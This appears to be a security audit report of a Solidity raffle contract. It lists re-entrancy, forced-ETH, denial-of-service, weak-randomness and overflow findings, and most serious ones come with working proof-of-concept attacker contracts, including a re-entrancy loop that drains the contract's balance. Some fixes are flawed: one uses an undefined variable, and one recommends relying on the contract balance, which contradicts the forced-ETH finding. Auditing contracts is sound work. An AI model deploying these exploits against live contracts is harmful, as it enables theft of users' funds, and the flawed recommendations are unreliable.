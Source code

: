 ### [H-1] Re-entrancy Bug which causes users funds + protocol funds to be lost.

**Description:**
In the `PuffyRaffle::refund` function , when an attacker calls the refund , he create a contract that can re-enter the contract and keep receiving funds till the contract is drained. All the attacker need to do is to create a contract that has a fallback function that also calls the refund. so every time ETH is sent to the attackers contract, the fallback function get triggered and it keeps calling the refund till the balance of the contract is drained.

**Impact:** All users + protocol funds are drained

**Proof of Concept:**

<details>
<summary>Code</summary>

```solidity
///@notice Attacker contract
contract ReEntrancyAttacker {
    IPuffyRaffle raffle;
    constructor(address _raffle) {
        raffle = IPuffyRaffle(_raffle);
    }
    function refundAgain() public {
        while (address(raffle).balance != 0) {
            raffle.refund(0);
        }
    }

    fallback() external payable {
        refundAgain();
    }

}

///@notice Tests
function testRefundAllFundsInContract() public {
    ReEntrancyAttacker attackerCon = new ReEntrancyAttacker(
        address(puppyRaffle)
    );

    ///@notice attacker enters raffle
    address[] memory players = new address[](4);
    players[0] = address(attackerCon);
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    console.log("Balance of Attacker", address(attackerCon).balance);

    console.log("Balance of PuffyRaffle", address(puppyRaffle).balance);

    console.log("REFUNDING........");

    //attacker calls refund.
    attackerCon.refundAgain();

    console.log("Balance of Attacker", address(attackerCon).balance);

    console.log("Balance of PuffyRaffle", address(puppyRaffle).balance);
    }
```

</details>

**Recommended Mitigation:**
Adhere to the CEI , Checks Effects Interaction.

```diff
-  payable(msg.sender).sendValue(entranceFee);

-  players[playerIndex] = address(0);

+  players[playerIndex] = address(0);
+  payable(msg.sender).sendValue(entranceFee);
```

The Effects should come before any external calls.

### [H-2] Protocol Can lose all protocol fee funds in the contract forever.

**Description:**
In the `PuffyRaffle::withdrawFees` function , the check for the balance to be equal to the `totalFees` in the contract will always fail if additional `ETH` is sent to the contract. Although the function does not have a `fallback` function to receive funds. An attacker could create a contract with `ETH` and call a `selfdestruct` which will push`ETH` to the contract. Thereby causing the protocol to lose the funds in the contract.

**Impact:**
All protocol fees will be lost forever.

**Proof of Concept:**

<details>

<summary>Code</summary>

```solidity
///@notice attacker contract
contract AttackerContract {
function attack(address victim) external payable {
    selfdestruct(payable(victim));
}

fallback() external payable {}

}

function testWithdrawShouldFailedWhenBalanceIsGreaterThanTotalFees() public playersEntered {
    vm.warp(block.timestamp + duration + 1);
    vm.roll(block.number + 1);

    puppyRaffle.selectWinner();

    //attack
    AttackerContract attackerCon = new AttackerContract();

    //send funds to attacker contract
    vm.deal(address(attackerCon), 3 ether);

    attackerCon.attack(address(puppyRaffle));

    vm.expectRevert("PuppyRaffle: There are currently players active!");
        puppyRaffle.withdrawFees();
}
```

</details>

**Recommended Mitigation:** Change the require check.

```diff
- require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");

+ require(totalFees != 0, "PuppyRaffle: Not enough fees!");
```

### [H-3] Denial of Service attack on the `PuffyRaffle::enterRaffle` function, which increases the amount of gas exponentially as `players` increases.

**Description:**
In the `PuffyRaffle::enterRaffle` function, the gas cost increases exponentially as the number of players increases. This is because the function loops through the `players` array which could be is an expensive operation. An attacker could create a contract that calls the `enterRaffle` function with a large number of players which will cause the function to run out of gas.

**Impact:**
The function will run out of gas and there denying users from using the protocol.

**Proof of Concept:**   Add this to the test suite:

<details>
<summary>POC</summary>

```solidity
function testDOS_Attack() public {
    uint256 firstPlayers = 10;

    //first 10 players
    address[] memory players = new address[](firstPlayers);
    for (uint256 i = 0; i < firstPlayers; i++) {
        players[i] = address(uint160(i));
    }

    uint256 gasLeftBefore = gasleft();

    puppyRaffle.enterRaffle{value: firstPlayers * entranceFee}(players);

    uint256 gasLeftAfter = gasleft();

    console.log("Gas Diff", gasLeftBefore - gasLeftAfter);

    uint256 secondPlayers = 100;

    ///second 100 players
    address[] memory second_players = new address[](secondPlayers);
    for (uint256 i = 0; i < secondPlayers; i++) {
        second_players[i] = address(uint160(secondPlayers + i));
    }

    uint256 gasLeftBeforeTwo = gasleft();

    puppyRaffle.enterRaffle{value: secondPlayers * entranceFee}(
        second_players
    );

    uint256 gasLeftAfterTwo = gasleft();

    console.log("Gas Diff", (gasLeftBeforeTwo - gasLeftAfterTwo));
    }
```

Output : We can see the gas cost increases exponentially as the number of players increases.

```javascript
Gas Diff 286208
Gas Diff 7070955
```

</details>

**Recommended Mitigation**
There are multiple ways to mitigate this:
* Protocol could add a cap to the number of players that can participate in the raffle.
* 

### [M-1] Weak Randomness in the `PuffyRaffle::selectWinner` function, which can be manipulated by miners.
**Description:**
In the `PuffyRaffle::selectWinner` function, the randomness is generated using the `(msg.sender, block.timestamp, block.difficulty)`. This is a weak source of randomness as miners can manipulate the block.timestamp and block.difficulty to predict the randomness. This can be done by miners who have control over the block.timestamp and block.difficulty.

**Impact:**
Miners can predict the randomness and manipulate the selection of the winner.

**Proof of Concept:**
<details>
<summary>Code</summary>

Attacker contract:
```solidity
contract AttackerGameProtocol is IERC721Receiver {
    IPuffyRaffle raffle;
    constructor(address _raffle) payable {
        raffle = IPuffyRaffle(_raffle);
    }
    function attack(uint256 time, uint256 diff, uint256 pLength) public {
        uint256 winnerIndex = uint256(
            keccak256(abi.encodePacked(address(this), time, diff))
        ) % pLength;

        console.log("Winner Index", winnerIndex);

        console.log(
            "Attacker Index",
            raffle.getActivePlayerIndex(address(this))
        );

        raffle.selectWinner();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external pure override returns (bytes4) {
        return this.onERC721Received.selector;
    }

    fallback() external payable {}

    receive() external payable {}
}
```

Test:
```solidity
function testGameProtocol() public {
        AttackerGameProtocol attackerGame = new AttackerGameProtocol{
            value: 1 ether
        }(address(puppyRaffle));

        uint256 attackerConBalanceBefore = address(attackerGame).balance;
        uint256 tokenIdBefore = puppyRaffle.balanceOf(address(attackerGame));

        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = address(attackerGame);
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        vm.prank(address(attackerGame));

        vm.warp(block.timestamp + duration + 1);
        vm.roll(block.number + 1);

        attackerGame.attack(block.timestamp, block.difficulty, 4);

        console.log("Attacker Balance Before", attackerConBalanceBefore);
        console.log("Attacker Balance After", address(attackerGame).balance);

        console.log("Owner of Token 0", puppyRaffle.ownerOf(0));
    }
```
</details>

**Recommended Mitigation:**
Use Chainlink VRF or other secure sources of randomness.

### [M-1] UnSafeCasting of `fees` to uint64 , causes overflow hence reducing the value of `totalFees`.

**Description**
The casting the fees to uint64 can overflow  `totalFees = totalFees + uint64(fee);`, when the value of fees increases. since a uint64 can only take up to 18.4..e18 values. so any value that goes beyond gets wrapped around. 

**Impact**
Some Protocol fees will be left int the contract, and since there is not function to remove excess funds this is a issue.

**Proof of Concept:**
Add this test to the test suite:
<details>
<summary>POC:</summary>

```solidity
function testOverflow() public {
    uint256 feeBefore = 10e18;

    console.log("Fee AFter", feeBefore);

    uint64 totalFeesBefore = uint64(feeBefore);

    console.log("Total Fees Before", totalFeesBefore);
    console.log("");

    console.log("Fee Increased.............");

    console.log("");

    uint256 feeAfter = feeBefore + 10e18;

    console.log("Fee", feeAfter);

    uint64 totalFeesAfter = uint64(feeAfter);

    console.log("Total Fees After", totalFeesAfter);
    }
```
</details>

**Recommended Mitigation**
There multiple ways to mitigate this issue:

* Use newer versions of solidity , since the compiler wont allow this `totalFees = totalFees + uint64(fee);` to compile.
* Use use OpenZeppelin's SafeCast to safely cast the fees.




### [NC-1] No checks for address validity, fees can be sent to a zero address

**Recommended Mitigation:** 
Add a require statement to check for address validity

```diff
function changeFeeAddress(address newFeeAddress) external onlyOwner {
+   require(newAddress!=address(0),"Invalid address");
    feeAddress = newFeeAddress;
    emit FeeAddressChanged(newFeeAddress);
}
```


### [NC-2] Variables that are set once , should be set to constant.


**Proof of Concept**

```javascript
string private commonImageUri =
    "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";
string private rareImageUri =
    "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";
string private legendaryImageUri =
    "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

**Recommended Mitigation:**
Change the variables to constant.

```diff
- string private commonImageUri =
+ string private constant commonImageUri =
    "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";

- string private rareImageUri =
+ string private constant rareImageUri =
    "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";

- string private legendaryImageUri =
+ string private constant legendaryImageUri =
    "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
```

### [NC-3] Do not Use magic numbers in the code.

**Proof of Concept**

```javascript
require(players.length >= 4, "PuppyRaffle: Need at least 4 players");

uint256 prizePool = (totalAmountCollected * 80) / 100;
uint256 fee = (totalAmountCollected * 20) / 100;
```

**Recommended Mitigation:**
Create a constant for the magic numbers.

```diff
+ uint256 constant MIN_PLAYERS = 4;
+ uint256 constant PRIZE_POOL_PERCENTAGE = 80;
+ uint256 constant FEE_PERCENTAGE = 20;
+ uint256 constant PRECISION = 100;
```

### [NC-4] Use `address(this).balance` instead of ` uint256 totalAmountCollected = players.length * entranceFee;` to get the balance of the contract.

**Proof of Concept**

```javascript
uint256 totalAmountCollected = players.length * entranceFee;
```

**Recommended Mitigation:**

```diff
- uint256 totalAmountCollected = players.length * entranceFee;
+ uint256 totalAmountCollected = address(this).balance;
```